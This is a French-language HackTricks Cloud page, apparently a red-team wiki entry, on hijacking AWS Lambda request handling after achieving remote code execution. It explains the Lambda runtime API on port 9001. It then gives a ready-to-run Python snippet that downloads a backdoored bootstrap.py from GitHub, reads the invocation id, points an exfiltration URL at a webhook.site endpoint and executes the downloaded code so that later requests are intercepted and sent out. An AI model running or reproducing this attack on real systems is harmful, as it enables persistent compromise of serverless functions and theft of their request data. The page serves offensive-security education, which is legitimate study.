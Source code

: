 # AWS - Voler les requêtes Lambda

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Expert en équipe rouge AWS de HackTricks)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>

## Flux Lambda

<figure><img src="../../../../.gitbook/assets/image (152).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** est un processus en dehors du conteneur qui **envoie** des **invocations** au processus **init**.
2. Le processus init écoute sur le port **9001** en exposant certains points d'extrémité intéressants :
* **`/2018-06-01/runtime/invocation/next`** – obtenir l'événement d'invocation suivant
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – renvoyer la réponse du gestionnaire pour l'invocation
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – renvoyer une erreur d'exécution
3. **bootstrap.py** a une boucle qui récupère les invocations du processus init et appelle le code des utilisateurs pour les gérer (**`/next`**).
4. Enfin, **bootstrap.py** envoie la **réponse** à init.

Notez que bootstrap charge le code utilisateur en tant que module, donc toute exécution de code effectuée par le code utilisateur se produit en réalité dans ce processus.

## Voler les requêtes Lambda

L'objectif de cette attaque est de faire exécuter au code des utilisateurs un processus malveillant **`bootstrap.py`** à l'intérieur du processus **`bootstrap.py`** qui gère la requête vulnérable. Ainsi, le processus **bootstrap malveillant** commencera à **communiquer avec le processus init** pour gérer les requêtes tandis que le **bootstrap légitime** est **piégé** en exécutant le malveillant, donc il ne demandera pas de requêtes au processus init.&#x20;

Il est facile d'accomplir cette tâche car le code de l'utilisateur est exécuté par le processus **`bootstrap.py`** légitime. Ainsi, l'attaquant pourrait :

* **Envoyer un faux résultat de l'invocation actuelle au processus init**, de sorte que init pense que le processus bootstrap attend plus d'invocations.
* Une requête doit être envoyée à **`/${invoke-id}/response`**&#x20;
* L'invoke-id peut être obtenu à partir de la pile du processus **`bootstrap.py`** légitime en utilisant le module python [**inspect**](https://docs.python.org/3/library/inspect.html) (comme [proposé ici](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) ou simplement en le demandant à nouveau à **`/2018-06-01/runtime/invocation/next`** (comme [proposé ici](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* Exécuter un **`bootstrap.py`** malveillant qui gérera les prochaines invocations
* À des fins de discrétion, il est possible d'envoyer les paramètres d'invocation Lambda à un C2 contrôlé par des attaquants, puis de gérer les requêtes comme d'habitude.
* Pour cette attaque, il suffit d'obtenir le code original de **`bootstrap.py`** à partir du système ou de [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), d'ajouter le code malveillant et de l'exécuter à partir de l'invocation Lambda actuelle.

### Étapes de l'attaque

1. Trouver une vulnérabilité **RCE**.
2. Générer un **bootstrap** **malveillant** (par exemple [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **Exécuter** le bootstrap malveillant.

Vous pouvez facilement effectuer ces actions en exécutant :
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Get invocation id
resp = http.request("GET", "127.0.0.1:9001/2018-06-01/runtime/invocation/next")
invoke_id = resp.headers["Lambda-Runtime-Aws-Request-Id"]

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Pour plus d'informations, consultez [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## Références

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks:

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>
